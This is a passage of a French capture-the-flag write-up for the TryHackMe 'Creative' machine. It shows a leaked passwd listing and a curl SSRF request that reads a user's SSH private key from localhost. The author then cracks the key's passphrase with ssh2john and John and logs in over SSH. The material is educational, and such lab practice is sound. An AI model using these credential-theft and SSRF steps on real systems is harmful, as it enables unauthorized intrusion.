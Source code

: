 ```
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
saad:x:1000:1000:saad:/home/saad:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
```

# Acces !
Après un peu de fouinage, je trouve la clé ssh de l'utilisateur **saad**
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/creative]
└─$ curl -X POST "http://beta.creative.thm" -d "url=http://localhost:1337/home/saad/.ssh/id_rsa"
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABA1J8+LAd
rb49YHdSMzgX80AAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQDBbWMPTToe
wBK40FcBuzcLlzjLtfa21TgQxhjBYMPUvwzbgiGpJYEd6sXKeh9FXGYcgXCduq3rz/PSCs
48K+nYJ6Snob95PhfKfFL3x8JMc3sABvU87QxrJQ3PFsYmEzd38tmTiMQkn08Wf7g13MJ6
[...REDACTED...]
Zs0fwcKpS7h0GzikbIAcrln7ozSgjMzYawbQzEyjjR2QFySMWLGHAW4N7eZ6VfP3dBJxcs
fq4rvw54iukm24T9qAnMXuj1+9joNomiScStTV98RmVy8WMs6WW4r0f7ynhN/S/LYHya+6
D2DK4fRX8v5bY9MAsuqlBIUYH0AVUieyDBnP9QsGNnlIm8TS9UuT/gv/6+sWRpg7H5jkNz
69XRxDuLKV5jVElkEAn/B3bkpkAAcfSfXJphgtYsYbrgchSGtxWMX7FurkWbd0l0WyX//E
8OWhSwGmtO24YBhqQ47nGhDa8ceAJbr0uOIVm+Klfro2D7bPX0Wm2LC65Z6OQGvhrEbQwP
nYcg+D3hFL9ZB4GfAZzwbLAP6EYJ+Tq6I/eiJ5LKs6Q32jMfITUy3wcEPkneMwdOkd35Od
Fcm9ZL3fa5FhAEdRXJrF8Oe5ZkHsj3nXLYnc2Z2Aqjl6TpMRubuu+qnaOdCnAGu1ghqQlS
ksrXEYjaMdndnvxBZ0zi9T+ywag=
-----END OPENSSH PRIVATE KEY-----
```

Je la récupère et la crack avec John:
```                                                                                                                                                                                 
┌──(kali㉿kali)-[~/Challenge/TryHackMe/creative]
└─$ ssh2john id_rsa > hashrsa                                                                   
                                                                                                                                                                                                                                                                                                                                                        
┌──(kali㉿kali)-[~/Challenge/TryHackMe/creative]
└─$ john --wordlist=/home/kali/Wordlist/rockyou.txt hashrsa 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[...REDACTED...]        (id_rsa)     
1g 0:00:00:10 DONE (2024-04-26 06:44) 0.09960g/s 95.61p/s 95.61c/s 95.61C/s hawaii..sandy
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                                     
┌──(kali㉿kali)-[~/Challenge/TryHackMe/creative]
└─$ 

```
J'ai le mdp! Nous voila avec une connexion SSH sur le serveur
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/creative]
└─$ ssh saad@10.10.16.209 -i id_rsa
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

```